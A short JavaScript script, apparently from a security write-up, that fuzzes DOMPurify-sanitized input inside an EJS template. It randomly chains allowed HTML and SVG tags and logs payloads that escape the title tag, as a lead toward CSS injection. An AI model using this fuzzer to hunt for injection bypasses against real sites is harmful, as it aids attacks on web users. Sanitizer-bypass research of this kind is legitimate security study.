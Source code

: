 ```js

// FROM https://github.com/cure53/DOMPurify/blob/main/src/tags.js
const html = [ 'a', 'abbr', ...];
const svg = [  'svg', 'a', ...];

function random_choice(list) {
  let index = Math.floor(Math.random() * list.length);
  return list[index];
}

function getIndicesOf(searchStr, str, caseSensitive) {
  var searchStrLen = searchStr.length;
  if (searchStrLen == 0) {
      return [];
  }
  var startIndex = 0, index, indices = [];
  if (!caseSensitive) {
      str = str.toLowerCase();
      searchStr = searchStr.toLowerCase();
  }
  while ((index = str.indexOf(searchStr, startIndex)) > -1) {
      indices.push(index);
      startIndex = index + searchStrLen;
  }
  return indices;
}

let wl = html.concat(svg);

function get_injection_string(p) {
    return `<${random_choice(wl)}>INJECT`
}

let p_len = 8;
for ( ; ; ) {
  let payload = []
  for (let i = 0; i < p_len; i++) {
    payload.push(get_injection_string(i));
  }
  let payload_main = payload.join('');

  const data = {
    sharedby: DOMPurify.sanitize(payload_main),
  };

  window.document.getElementsByTagName('html')[0].innerHTML = ejs.render(template, data);
  var resp = window.document.getElementsByTagName('html')[0].innerHTML;


  // Try to see if we were able to escape the title tag. Since DOMPurify allows styles by default, this can give us a lead into injecting CSS.
  var indices = getIndicesOf("INJECT", resp);
  if (indices.some((e) => e > resp.indexOf('</title>'))) {
    console.log("Payload: ", payload_main);
    console.log("Sanitized: ", data.sharedby);
    console.log(resp)
  }
}
```
